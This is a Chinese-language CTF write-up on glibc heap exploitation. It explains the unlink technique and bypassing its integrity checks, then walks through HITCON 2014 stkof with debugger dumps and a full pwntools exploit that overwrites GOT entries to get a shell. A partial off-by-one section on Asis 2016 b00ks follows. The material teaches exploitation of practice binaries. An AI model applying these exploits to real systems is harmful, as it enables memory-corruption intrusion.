

# 堆漏洞利用

## unlink

### 原理

#### 产生原因

在free chunk时有一步：

```
//3向后合并——合并低地址的chunk
      /* consolidate backward */
      if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(av, p, bck, fwd);  //unlink有关的漏洞就是在这里产生的
      }
```

如果free的chunk后一个chunk(低地址)为空闲状态，此时会合并它，故会执行unlink(p),此时p就是需要合并的chunk，不是开始释放的chunk

unlink代码：

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    //临时变量
    FD = P->fd;								      \
    BK = P->bk;								      \
    // 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致(size检查)
	if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size"); 
    //双向链表的完整性检查(根据fd和bk指针)
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        //largebin 中 next_size 双向链表完整性检查
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	          if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		            || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	            malloc_printerr (check_action,				      \
			            "corrupted double-linked list (not small)",    \
			          P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}
```

这里假设free的chunk为Q，相邻低地址的chunk为P(空闲)，相邻高地址的chunk正在使用，不考虑


在真正unlink(P)之前，存在两个if判断，所以需要绕过

+ 第一个if判断(size)

  ```
  if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
        malloc_printerr ("corrupted size vs. prev_size");
  ```

  检查P的size能否对应上Q的pre_size

+ 第二个判断(fd与bk)

  ```
  //双向链表的完整性检查(根据fd和bk指针)
      if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
        malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
  ```

  此时:

  FD=P->fd=Target_addr-0x18

  BK=P->bk=Target

  FD->bk=*(Target_addr-0x18+0x18)=\*(Target_addr)

  BK->fd=*(Target_addr)

  其实，在实际的应用过程中，Target_addr里面存储的就是P的指针

+ 绕过判断之后，就会对其进行赋值

  FD->bk=BK=Target

  BK->fd=FD=Target_addr-0x18

如有不懂，请见：https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unlink/#_1

#### 利用条件

1. UAF ，可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
2. 已知位置存在一个指针指向可进行 UAF 的 chunk

#### 利用思路

以64为位为例(32位同理)

**(一)利用unlink**

一般需要两个chunk，chunk1大小保证能够存放伪造的chunk并覆盖chunk2的pre_size和size，chunk2大小为small bin范围即可

设指向chunk1的指针的地址为ptr

伪造的chunk1：

1、size域的inuse位为0

2、修改fd为ptr-0x18

3、修改bk为ptr-0x10

这样可以保证绕过

```
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

4、覆盖chunk2的pre_size和size

pre_size必须为伪造chunk1的大小，size为真实大小即可，为了绕过：

```
    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
```

然后free(chunk2)，接着会unlink(fake chunk1)

**效果**：ptr处的指针会变成ptr-0x18

**(二)根据程序特点，利用控制指针，泄露libc基质等**

### 例题

#### 2014 HITCON stkof

##### 程序防护

checksec分析：

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap$ checksec stkof
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```

##### 程序流程

IDA分析：

主函数：

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int choice; // eax
  signed int v5; // [rsp+Ch] [rbp-74h]
  char nptr; // [rsp+10h] [rbp-70h]
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  alarm(0x78u);
  while ( fgets(&nptr, 10, stdin) )
  {
    choice = atoi(&nptr);
    if ( choice == 2 )
    {
      v5 = fill();
      goto LABEL_14;
    }
    if ( choice > 2 )
    {
      if ( choice == 3 )
      {
        v5 = free_chunk();
        goto LABEL_14;
      }
      if ( choice == 4 )
      {
        v5 = print();
        goto LABEL_14;
      }
    }
    else if ( choice == 1 )
    {
      v5 = alloc();
      goto LABEL_14;
    }
    v5 = -1;
LABEL_14:
    if ( v5 )
      puts("FAIL");
    else
      puts("OK");
    fflush(stdout);
  }
  return 0LL;
}
```

fill函数：即找到对应的块，重新定义size，向里面写入内容

```
signed __int64 fill()
{
  signed __int64 result; // rax
  int i; // eax
  unsigned int idx; // [rsp+8h] [rbp-88h]
  __int64 size; // [rsp+10h] [rbp-80h]
  char *ptr; // [rsp+18h] [rbp-78h]
  char s; // [rsp+20h] [rbp-70h]
  unsigned __int64 v6; // [rsp+88h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  fgets(&s, 16, stdin);
  idx = atol(&s);
  if ( idx > 0x100000 )
    return 0xFFFFFFFFLL;
  if ( !global[idx] )
    return 0xFFFFFFFFLL;
  fgets(&s, 16, stdin);
  size = atoll(&s);
  ptr = global[idx];
  for ( i = fread(ptr, 1uLL, size, stdin); i > 0; i = fread(ptr, 1uLL, size, stdin) )
  {
    ptr += i;
    size -= i;
  }
  if ( size )
    result = 0xFFFFFFFFLL;
  else
    result = 0LL;
  return result;
}
```

free函数：释放chunk

```
signed __int64 free_chunk()
{
  unsigned int idx; // [rsp+Ch] [rbp-74h]
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fgets(&s, 16, stdin);
  idx = atol(&s);
  if ( idx > 0x100000 )
    return 0xFFFFFFFFLL;
  if ( !global[idx] )
    return 0xFFFFFFFFLL;
  free(global[idx]);
  global[idx] = 0LL;
  return 0LL;
}
```

alloc函数：分配chunk，其中块的指针信息保存在一个全局变量0x602140中，以下称之为global

```
signed __int64 alloc()
{
  __int64 size; // [rsp+0h] [rbp-80h]
  char *v2; // [rsp+8h] [rbp-78h]
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(&s, 16, stdin);
  size = atoll(&s);
  v2 = (char *)malloc(size);
  if ( !v2 )
    return 0xFFFFFFFFLL;
  global[++cnt] = v2;
  printf("%d\n", (unsigned int)cnt, size);
  return 0LL;
}
```

##### 漏洞分析

在fill漏洞中，可以重新修改size，故存在堆溢出；全局变量存放指针；没有打印函数

思路：

unlink控制全局变量内容

修改chunk1指针为free_got,修改got表内容为puts_plt

修改chunk2指针为puts_got,free(2)的时候即可打印处puts函数的地址

查找libc，得到system函数地址，当然也可以得到/bin/sh地址

修改atoi的got表地址内容为system函数地址

发送/bin/sh

##### 详细步骤

**第一步**：首先申请三个malloc

```python
#分配3个chunk
alloc(0x100) # idx 1
alloc(0x30) # idx 2
alloc(0x80) # idx 3
```

申请后的heap详情：

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x1752000
Size: 0x1011

Allocated chunk | PREV_INUSE        //1
Addr: 0x1753010
Size: 0x111

Allocated chunk | PREV_INUSE
Addr: 0x1753120
Size: 0x411

Allocated chunk | PREV_INUSE        //2
Addr: 0x1753530
Size: 0x41

Allocated chunk | PREV_INUSE       //3
Addr: 0x1753570
Size: 0x91

Top chunk | PREV_INUSE
Addr: 0x1753600
Size: 0x20a01
```

将每个chunk的首地址存储在0x602140这个地址中，为什么都在上面chunk Addr地址的基础上都加了0x10呢

因为这个地址是堆中开始允许写的地址，而上面chunk的Addr是每个chunk pre_size处的地址,这0x10就包括pre_size和size

```
pwndbg> x /20gx 0x602140
0x602140:	0x0000000000000000	0x0000000001753020      //1
0x602150:	0x0000000001753540	0x0000000001753580      //2   3
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
```

这个就是0x1cc2530中存储的内容

```
pwndbg> x /20gx 0x0000000001753530
0x1753530:	0x0000000000000000	0x0000000000000041        //表示该chunk的size
0x1753540:	0x0000000000000000	0x0000000000000000        //我们实际开始写入的地方，global也就是保存这个地址
0x1753550:	0x0000000000000000	0x0000000000000000
0x1753560:	0x0000000000000000	0x0000000000000000
0x1753570:	0x0000000000000000	0x0000000000000091
0x1753580:	0x0000000000000000	0x0000000000000000
0x1753590:	0x0000000000000000	0x0000000000000000
0x17535a0:	0x0000000000000000	0x0000000000000000
0x17535b0:	0x0000000000000000	0x0000000000000000
0x17535c0:	0x0000000000000000	0x0000000000000000
```

**第二步**：伪造chunk2并写入

```python
#伪造chunk2
fd = head+16-0x18
bk = head+16-0x10
payload1 = p64(0)+p64(0x30)+p64(fd)+p64(bk)
payload1 = payload1.ljust(0x30,'A')
payload1 += p64(0x30) + p64(0x90)
#将伪造好的chunk2写到相应的内存中
edit(2, len(payload1), payload1)
```

此时head中内容没有改变

```
pwndbg> x /20gx 0x602140
0x602140:	0x0000000000000000	0x0000000001753020
0x602150:	0x0000000001753540	0x0000000001753580
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
```

而chunk2的内容发生改变，也验证了上面的结论，堆中的chunk写入的地址是Addr+0x10处的，即不改变（pre_size和size）

```
pwndbg> x /20gx 0x0000000001753530
0x1753530:	0x0000000000000000	0x0000000000000041      //原chunk2中的pre_size和size
0x1753540:	0x0000000000000000	0x0000000000000030      //我们开始写入的地方，伪造的chunk2的pre_size和size
0x1753550:	0x0000000000602138	0x0000000000602140      //构造的fd和bk
0x1753560:	0x4141414141414141	0x4141414141414141      //补齐0x30的长度
0x1753570:	0x0000000000000030	0x0000000000000090      //原chunk3的pre_size和size处，先也被伪造
0x1753580:	0x0000000000000000	0x0000000000000000
0x1753590:	0x0000000000000000	0x0000000000000000
0x17535a0:	0x0000000000000000	0x0000000000000000
0x17535b0:	0x0000000000000000	0x0000000000000000
0x17535c0:	0x0000000000000000	0x0000000000000000
```

**第三步**：free(3)

```
#free chunk3，由于因为伪造的chunk2导致在free3的时候发现可以向前合并
#故会unlink(2)
free(3)
```

此时的head处发生了改变，global[2]发生了变化，变成了原global[2]指针-0x10，unlink的缘故

```
pwndbg> x /20gx 0x602140
0x602140:	0x0000000000000000	0x0000000001753020
0x602150:	0x0000000000602138	0x0000000000000000     //这里发生了改变
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
```

**第四步**：开始将我们的got表地址写入到global[2]存储的地址，也就是0x0000000000602138

```
#由于这里未开启RELRO，故可以将got表进行更改
#取出一些plt表和got表地址
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

payload = 'a'*16 + p64(free_got) + p64(puts_got) + p64(atoi_got)
#向global[2]存储的地址上写入payload
edit(2,len(payload),payload)
```

执行后查看

```
pwndbg> x /20gx 0x602138
0x602138:	0x6161616161616161	0x6161616161616161
0x602148:	0x0000000000602018	0x0000000000602020
0x602158:	0x0000000000602088	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
0x6021b8:	0x0000000000000000	0x0000000000000000
0x6021c8:	0x0000000000000000	0x0000000000000000
```

顺便查看其中一个地址

```
pwndbg> x /20gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007f40196c3a70	0x00007f40196af5d0
0x602028 <fread@got.plt>:	0x00007f40196ae0e0	0x0000000000400786
0x602038 <__stack_chk_fail@got.plt>:	0x0000000000400796	0x00007f40196957b0
0x602048 <alarm@got.plt>:	0x00007f401970b7d0	0x00007f4019660740
0x602058 <fgets@got.plt>:	0x00007f40196ada80	0x00007f4019676ea0
0x602068 <__gmon_start__@got.plt>:	0x00000000004007f6	0x00007f40196c3550
0x602078 <fflush@got.plt>:	0x00007f40196ad750	0x00007f4019676e90
0x602088 <atoi@got.plt>:	0x00007f4019676e70	0x0000000000000000
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000
pwndbg> x /20gx 0x00007f40196c3a70
0x7f40196c3a70 <__GI___libc_free>:	0x8348535554415541	0x33f477058b4828ec
0x7f40196c3a80 <__GI___libc_free+16>:	0x0fc08548008b4800	0xff8548000000d385
0x7f40196c3a90 <__GI___libc_free+32>:	0x8d48f8478b482a74	0x04a8327502a8f077
0x7f40196c3aa0 <__GI___libc_free+48>:	0x74003400793d8d48	0x00002548f089480c
0x7f40196c3ab0 <__GI___libc_free+64>:	0xe8d231388b48fc00	0x28c48348ffffbea4
0x7f40196c3ac0 <__GI___libc_free+80>:	0x66c35d415c415d5b	0x0000000000841f0f
0x7f40196c3ad0 <__GI___libc_free+96>:	0xd2850033f6be158b	0x33f68f053b482e75
0x7f40196c3ae0 <__GI___libc_free+112>:	0x0000003d48257600	0x48f8e083481d7702
0x7f40196c3af0 <__GI___libc_free+128>:	0xf67605894800148d	0x33f65f1589480033
0x7f40196c3b00 <__GI___libc_free+144>:	0x00401f0f08eb9000	0xf04f8b48f8e08348
```

在global[1]处确实写入了free的got表地址

**第5步**：因为要泄露地址，所以做的第一步就是要有导致泄露的函数，即puts输出函数。即向指向free函数的got表地址中写入puts函数的plt地址

```
#因为上面payload的写入，此时global[1]中存储的地址是free_got的地址
#向指向free函数的got表地址中写入puts函数的plt地址
edit(1,len(p64(puts_plt)),p64(puts_plt))
```

执行完后查看

```
pwndbg> x /20gx 0x602138
0x602138:	0x6161616161616161	0x6161616161616161
0x602148:	0x0000000000602018	0x0000000000602020
0x602158:	0x0000000000602088	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
0x6021b8:	0x0000000000000000	0x0000000000000000
0x6021c8:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x0000000000602018
0x602018 <free@got.plt>:	0x0000000000400760	0x00007f40196af5d0          //got表中的地址发生了改变
0x602028 <fread@got.plt>:	0x00007f40196ae0e0	0x0000000000400786
0x602038 <__stack_chk_fail@got.plt>:	0x0000000000400796	0x00007f40196957b0
0x602048 <alarm@got.plt>:	0x00007f401970b7d0	0x00007f4019660740
0x602058 <fgets@got.plt>:	0x00007f40196ada80	0x00007f4019676ea0
0x602068 <__gmon_start__@got.plt>:	0x00000000004007f6	0x00007f40196c3550
0x602078 <fflush@got.plt>:	0x00007f40196ad750	0x00007f4019676e90
0x602088 <atoi@got.plt>:	0x00007f4019676e70	0x0000000000000000
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x0000000000400760
0x400760 <puts@plt>:	0x0168002018ba25ff	0xffffffd0e9000000     //查看一下，我们正确的写入了puts的plt表地址
0x400770 <fread@plt>:	0x0268002018b225ff	0xffffffc0e9000000
0x400780 <strlen@plt>:	0x0368002018aa25ff	0xffffffb0e9000000
0x400790 <__stack_chk_fail@plt>:	0x0468002018a225ff	0xffffffa0e9000000
0x4007a0 <printf@plt>:	0x05680020189a25ff	0xffffff90e9000000
0x4007b0 <alarm@plt>:	0x06680020189225ff	0xffffff80e9000000
0x4007c0 <__libc_start_main@plt>:	0x07680020188a25ff	0xffffff70e9000000
0x4007d0 <fgets@plt>:	0x08680020188225ff	0xffffff60e9000000
0x4007e0 <atoll@plt>:	0x09680020187a25ff	0xffffff50e9000000
0x4007f0 <__gmon_start__@plt>:	0x0a680020187225ff	0xffffff40e9000000
```

**第6步**：free(2)

```
#正常来讲，free(2)表示free chunk2，此时chunk2的地址，即global[2]存储的是puts函数的got表地址
#由于往free的got表中写入了puts函数的plt地址，故在执行free(2)的时候会执行puts(puts@got)
free(2)
#接收puts函数的真实地址
puts_real = u64(s.recvuntil('\x7f')[-6:]+'\x00\x00')
#puts_real = u64(s.recvuntil('\nOK\n', drop=True).ljust(8, '\x00'))
log.success("Puts_real:"+hex(puts_real))

#本来给了libc，但是没打通本地，故使用一下LibcSearcher
libc = LibcSearcher('puts',puts_real)
offset = puts_real - libc.dump('puts')
log.success("Offset:"+hex(offset))
system_addr = libc.dump('system')+offset
log.success("System_addr:"+hex(system_addr))
```

执行后查看结果

```
[+] Puts_real:0x7f40196af5d0
Multi Results:
 0: ubuntu-glibc (id libc6-amd64_2.27-3ubuntu1.2_i386)
 1: ubuntu-glibc (id libc6_2.23-0ubuntu3_amd64)
 2: ubuntu-glibc (id libc6-x32_2.27-3ubuntu1_i386)
 3: ubuntu-glibc (id libc6-x32_2.27-3ubuntu1_amd64)
Please supply more info using 
    add_condition(leaked_func, leaked_address).
You can choose it by hand
Or type 'exit' to quit:1
[+] ubuntu-glibc (id libc6_2.23-0ubuntu3_amd64) be choosed.
[+] Offset:0x7f4019640000
[+] System_addr:0x7f4019685380
```

**第7步**：往atoi的got表地址写入system函数地址

```
#此时chunk3的地址即global[3]表示的是atoi_got，这里将system函数的真实地址写入atoi对应的got表中，覆盖atoi真实地址
edit(3,len(p64(system_addr)),p64(system_addr))
```

执行后结果：

```
pwndbg> x /20gx 0x602138
0x602138:	0x6161616161616161	0x6161616161616161
0x602148:	0x0000000000602018	0x0000000000000000
0x602158:	0x0000000000602088	0x0000000000000000     //global[3]存储的地址
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
0x6021b8:	0x0000000000000000	0x0000000000000000
0x6021c8:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x0000000000602088
0x602088 <atoi@got.plt>:	0x00007f4019685380	0x0000000000000000
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000
0x6020b8:	0x0000000000000000	0x00007f4019a04620
0x6020c8:	0x0000000000000000	0x00007f4019a038e0
0x6020d8:	0x0000000000000000	0x0000000000000000
0x6020e8:	0x0000000000000000	0x0000000000000000
0x6020f8:	0x0000000000000000	0x0000000000000003
0x602108:	0x0000000000000000	0x0000000000000000
0x602118:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x00007f4019685380
0x7f4019685380 <__libc_system>:	0xfa86e90b74ff8548	0x0000441f0f66ffff
0x7f4019685390 <__libc_system+16>:	0x48001471fc3d8d48	0xfffffa70e808ec83
0x7f40196853a0 <__libc_system+32>:	0xc48348c0940fc085	0x001f0fc3c0b60f08
0x7f40196853b0 <__realpath>:	0x56415741e5894855	0xec81485354415541
0x7f40196853c0 <__realpath+16>:	0x48ff8548000000d8	0x840fffffff20b589
0x7f40196853d0 <__realpath+32>:	0x27b60f440000050a	0x840fe48445fe8949
0x7f40196853e0 <__realpath+48>:	0x48f6854800000443	0x00000495840ff189
0x7f40196853f0 <__realpath+64>:	0x00998d482ffc8041	0x00020c840f000010
0x7f4019685400 <__realpath+80>:	0x001000becf894800	0xffffff388d894800
0x7f4019685410 <__realpath+96>:	0xc08548000b1e2be8	0x0fffffff388d8b48
```

**第8步**：发送/bin/sh

```
────────────────────────[ STACK]─────────────────────────────
00:0000│ rsp 0x7ffd79f9d110 ◂— 0x3
01:0008│     0x7ffd79f9d118 —▸ 0x7ffd79f9e2b6 ◂— 0x622f00632d006873 /* 'sh' */
02:0010│     0x7ffd79f9d120 —▸ 0x7ffd79f9e2b9 ◂— 0x2f6e69622f00632d /* '-c' */
03:0018│     0x7ffd79f9d128 —▸ 0x7ffd79f9e2bc ◂— '/bin/sh\n'
04:0020│     0x7ffd79f9d130 ◂— 0x0
05:0028│     0x7ffd79f9d138 —▸ 0x7ffd79f9e2c5 ◂— 'LC_NUMERIC=zh_CN.UTF-8'
06:0030│     0x7ffd79f9d140 —▸ 0x7ffd79f9e2dc ◂— 'GNOME_DESKTOP_SESSION_ID=this-is-deprecated'
07:0038│     0x7ffd79f9d148 —▸ 0x7ffd79f9e308 ◂— 'GJS_DEBUG_OUTPUT=stderr'
```

成功拿到shell

##### 完整exp

```python
#-*- coding:utf-8 -*-
from pwn import *
from LibcSearcher import *

context(os='linux',arch='amd64')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

s = process("./stkof")
libc = ELF("./libc.so.6")
elf = ELF("./stkof")

#malloc分配函数，即输入1的情况
def alloc(size):
    s.sendline("1")
    s.sendline(str(size))
    s.recvuntil("OK\n")
    log.success("Have Malloc A Heap With:"+hex(size))

#free函数
def free(idx):
    s.sendline("3")
    s.sendline(str(idx))
    log.success("Have Free Heap:"+str(idx))

#对chunk内容编辑函数
def edit(idx,size,payload):
    s.sendline("2")
    s.sendline(str(idx))
    s.sendline(str(size))
    s.send(payload)
    s.recvuntil("OK\n")
    log.success("Have Edit Heap:"+str(idx))

#堆内存地址存储头部
head = 0x0602140
#下端点依附进程调试，下面两句都可
# gdb.attach(s,"break *0x400D29")
#gdb.attach(s,'b *0x0000000000400CFB')
#分配3个chunk
alloc(0x100) # idx 1
alloc(0x30) # idx 2
alloc(0x80) # idx 3
gdb.attach(s,'b *0x0000000000400CFB')

####第一步：
#伪造chunk2
fd = head+16-0x18
bk = head+16-0x10
payload1 = p64(0)+p64(0x30)+p64(fd)+p64(bk)
payload1 = payload1.ljust(0x30,'A')
payload1 += p64(0x30) + p64(0x90)
#将伪造好的chunk2写到相应的内存中
edit(2, len(payload1), payload1)
#free chunk3，由于因为伪造的chunk2导致在free3的时候发现可以向前合并
#故会unlink(2)
free(3)
####第一步完成,导致的结果就是global[2]存的地址不是chunk2的堆地址，而是global[2]本身的地址指针-0x10

####第二步:
#由于这里未开启RELRO，故可以将got表进行更改
#取出一些plt表和got表地址
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

payload = 'a'*16 + p64(free_got) + p64(puts_got) + p64(atoi_got)
#向global[2]存储的地址上写入payload
edit(2,len(payload),payload)
#因为上面payload的写入，此时global[1]中存储的地址是free_got的地址
#向指向free函数的got表地址中写入puts函数的plt地址
edit(1,len(p64(puts_plt)),p64(puts_plt))
#正常来讲，free(2)表示free chunk2，此时chunk2的地址，即global[2]存储的是puts函数的got表地址
#由于往free的got表中写入了puts函数的plt地址，故在执行free(2)的时候会执行puts(puts@got)
free(2)
#s.recvline()
#puts_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'x00'))
# puts_real = s.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
# puts_real = u64(puts_real)
#接收puts函数的真实地址
puts_real = u64(s.recvuntil('\x7f')[-6:]+'\x00\x00')
#puts_real = u64(s.recvuntil('\nOK\n', drop=True).ljust(8, '\x00'))
log.success("Puts_real:"+hex(puts_real))

#本来给了libc，但是没打通本地，故使用一下LibcSearcher
libc = LibcSearcher('puts',puts_real)
offset = puts_real - libc.dump('puts')
log.success("Offset:"+hex(offset))
system_addr = libc.dump('system')+offset
log.success("System_addr:"+hex(system_addr))
#此时chunk3的地址即global[3]表示的是atoi_got，这里将system函数的真实地址写入atoi对应的got表中，覆盖atoi真实地址
edit(3,len(p64(system_addr)),p64(system_addr))
#这里就是while循环的输入，然后将输入的字符串作为参数执行atoi函数，但是这里已经更改成为system函数地址
s.sendline("/bin/sh")
s.interactive()
```


## Off By One

### 原理

 off-by-one 漏洞是一种特殊的溢出漏洞，off-by-one 指程序向缓冲区中写入时，写入的字节数超过了这个缓冲区本身所申请的字节数并且只越界了一个字节。

#### 产生原因

off-by-one 是指单字节缓冲区溢出，这种漏洞的产生往往与边界验证不严和字符串操作有关，当然也不排除写入的 size 正好就只多了一个字节的情况。其中边界验证不严通常包括

- 使用循环语句向堆块中写入数据时，循环的次数设置错误（这在 C 语言初学者中很常见）导致多写入了一个字节。
- 字符串操作不合适

一般来说，单字节溢出被认为是难以利用的，但是因为 Linux 的堆管理机制 ptmalloc 验证的松散性，基于 Linux 堆的 off-by-one 漏洞利用起来并不复杂，并且威力强大。 此外，需要说明的一点是 off-by-one 是可以基于各种缓冲区的，比如栈、bss 段等等，但是堆上（heap based） 的 off-by-one 是 CTF 中比较常见的。

#### 利用条件

原因中已经提到，能够溢出一个字节

#### 利用思路

1. 溢出字节为可控制任意字节：通过修改大小造成块结构之间出现重叠，从而泄露其他块数据，或是覆盖其他块数据。也可使用 NULL 字节溢出的方法

2. 溢出字节为 NULL 字节：在 size 为 0x100 的时候，溢出 NULL 字节可以使得 `prev_in_use` 位被清，这样前块会被认为是 free 块。（1） 这时可以选择使用 unlink 方法（见 unlink 部分）进行处理。

   （2） 另外，这时 `prev_size` 域就会启用，就可以伪造 `prev_size` ，从而造成块之间发生重叠。此方法的关键在于 unlink 的时候没有检查按照 `prev_size` 找到的块的大小与`prev_size` 是否一致。

综上，Off By One漏洞需要配合其他漏洞利用方法一起进行攻击，所以在实际操作的过程中一定要及时发现，合理利用

### 例题

#### Asis CTF 2016 [b00ks](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/off_by_one/Asis_2016_b00ks)

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap$ checksec b00ks
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/b00ks'
    Arch:     amd64-64-little
    RELRO:    Full RELRO                   //不能更改got表
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled                  //开启地址无关
```

##### 程序流程

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap$ ./b00ks
Welcome to ASISCTF book library
Enter author name: aaa

1. Create a book
2. Delete a book
3. Edit a book
4. Print book detail
5. Change current author name
6. Exit
> 
```

这时程序大致的运行，具体流程进入IDA分析，最终提炼出一个重要的结构体


我们exp构造的相关结构：


##### 漏洞分析

存在该漏洞函数，会造成off-by-one 漏洞

```
signed __int64 __fastcall my_read(_BYTE *a1, int a2)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( a2 <= 0 )
    return 0LL;
  buf = a1;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == 10 )
      break;
    ++buf;
    if ( i == a2 )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

当输入的长度为a2时，该程序会向buf越界写入一个字节\x00

##### 详细步骤

首先由于开启了PIE，为了方便调试，临时关闭系统的地址随机化功能：`echo 0 > /proc/sys/kernel/randomize_va_space`

